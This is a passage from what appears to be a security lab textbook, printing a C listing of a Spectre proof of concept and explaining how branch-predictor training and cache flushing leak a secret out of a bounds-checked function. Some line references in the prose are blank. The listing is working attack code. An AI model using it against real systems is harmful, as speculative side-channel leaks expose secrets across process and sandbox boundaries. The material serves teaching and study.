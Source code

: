 \begin{lstlisting}[caption=\texttt{SpectreAttack.c}, label=spectre:list:spectreattack]
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};
char    *secret    = "Some Secret Value";     (*@\ding{192}@*)
uint8_t array[256*4096];

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else { return 0; }
}

void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;

  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) {
      restrictedAccess(i);
  }

  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {   }

  s = restrictedAccess(index_beyond);      (*@\ding{193}@*)
  array[s*4096 + DELTA] += 88;             (*@\ding{194}@*)         
}

int main() {
  flushSideChannel();
  size_t index_beyond = (size_t)(secret - (char*)buffer);  (*@\ding{195}@*)
  printf("secret: %p \n", secret);
  printf("buffer: %p \n", buffer);
  printf("index of secret (out of bound): %ld \n", index_beyond);
  spectreAttack(index_beyond);
  reloadSideChannel();
  return (0);
}
\end{lstlisting}


Most of the code is the same as that in Listing~\ref{spectre:list:outoforder}, so
we will not repeat their explanation here. The most important part is 
in Lines , , and . Line 
calculates the offset of the secret from the beginning of the buffer~(we assume that 
the address of the secret is known to the attacker; in real attacks, there are many ways for 
attackers to figure out the address, including guessing).
The offset is definitely beyond the scope of the buffer, so
it is larger than the upper bound of the buffer or smaller than the 
lower bound (i.e., a negative number). The offset
is fed into the \texttt{restrictedAccess()} function.
Since we have trained the CPU to take the true-branch inside
\texttt{restrictedAccess()}, the CPU will return \texttt{buffer[index\_beyond]}, which contains
the value of the secret, in the out-of-order execution. 
The secret value then causes its corresponding element in \texttt{array[]} to
be loaded into cache. All these steps will eventually be reverted, so 
from the outside, only zero is returned from \texttt{restrictedAccess()}, not the value of the secret.
However, the cache is not cleaned, and \texttt{array[s*4096 + DELTA]} is still kept in
the cache. Now, we just need to use the side-channel technique to figure out which element of the
\texttt{array[]} is in the cache.  


